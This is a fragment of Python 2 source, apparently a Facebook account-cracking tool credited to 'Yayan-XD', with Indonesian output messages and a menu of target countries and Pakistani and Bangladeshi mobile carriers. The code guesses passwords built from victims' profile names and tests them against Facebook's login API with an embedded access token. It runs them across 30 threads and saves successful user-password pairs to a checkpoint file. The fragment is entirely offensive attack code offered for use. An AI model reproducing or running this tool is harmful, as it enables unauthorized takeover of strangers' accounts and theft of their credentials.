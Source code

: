 															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['last_name'] + '12345'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;96m[\x1b[1;92mValid_OK\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;58m|\x1b[1;97m ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;96m[\x1b[1;93mInvalid_CP\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;58m|\x1b[1;97m ' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)	
																												   	
											
                               
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;96m⊱⋕⊰══════════════════════════════════════════⊱⋕⊰" 
	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mProcess Telah Selesai \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;96m[+] \033[1;92mCP File Sudah Tersimpan \033[1;91m: \033[1;97mout/checkpoint.txt")
	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
	menu()
	
def menu():
	os.system('clear')
	print logo
	print 42*"\033[1;91m="
	print '\033[1;94m[1]\033[1;92m  Bangladesh   \033[1;91m⇋  \033[1;94m[20]\033[1;93m  Albania'
	print '\033[1;94m[2]\033[1;92m  USA          \033[1;91m⇋  \033[1;94m[21]\033[1;93m  Algeria'
	print '\033[1;94m[3]\033[1;92m  UK           \033[1;91m⇋  \033[1;94m[22]\033[1;93m  Andorra'
	print '\033[1;94m[4] \033[1;92m India        \033[1;91m⇋  \033[1;94m[23]\033[1;93m  Armenia'
	print '\033[1;94m[5]\033[1;92m  Brazil       \033[1;91m⇋  \033[1;94m[24]\033[1;93m  Georgia'
	print '\033[1;94m[6]\033[1;92m  Japan        \033[1;91m⇋  \033[1;94m[25]\033[1;93m  Iceland'
	print '\033[1;94m[7]\033[1;92m  Korea        \033[1;91m⇋  \033[1;94m[26]\033[1;93m  China'
	print '\033[1;94m[8]\033[1;92m  Italy        \033[1;91m⇋  \033[1;94m[27]\033[1;93m  Bhutan'
	print '\033[1;94m[9]\033[1;92m  Spain        \033[1;91m⇋  \033[1;94m[28]\033[1;93m  Mongolia'
	print '\033[1;94m[10]\033[1;92m Poland       \033[1;91m⇋  \033[1;94m[29]\033[1;93m  New Zealand'
	print '\033[1;94m[11]\033[1;92m Pakistan     \033[1;91m⇋  \033[1;94m[30]\033[1;93m  Sudan'
	print '\033[1;94m[12]\033[1;92m Indonisia    \033[1;91m⇋  \033[1;94m[+]\033[1;93m Pak Nbr Fb Clone\033[1;94m[+] '
	print '\033[1;94m[13]\033[1;92m Iran         \033[1;91m⇋  \033[1;94m[A]\033[1;93m Telenor' 
	print '\033[1;94m[14]\033[1;92m Grecee       \033[1;91m⇋  \033[1;94m[B]\033[1;93m  Zong'
	print '\033[1;94m[15]\033[1;92m Afghanistan  \033[1;91m⇋  \033[1;94m[C]\033[1;93m  Jazz'
	print '\033[1;94m[16]\033[1;92m Syria        \033[1;91m⇋  \033[1;94m[+]\033[1;93m Bangal Nbr Fb Clone\033[1;94m[+] '
	print '\033[1;94m[17]\033[1;92m Turky        \033[1;91m⇋  \033[1;94m[D]\033[1;93m Airtel/Robi' 
	print '\033[1;94m[18]\033[1;92m Iraq         \033[1;91m⇋  \033[1;94m[E]\033[1;93m Grameenphone' 
	print '\033[1;94m[19]\033[1;92m France       \033[1;91m⇋  \033[1;94m[F]\033[1;93m Banglalink' 
	print '[0]\033[1;97m  Keluar            '
	print '>>\033[1;92m Selamat Datang Di Script \033[1;91m(\033[1;97mYayan-XD\033[1;91m) ' 
	print 42*"\033[1;91m="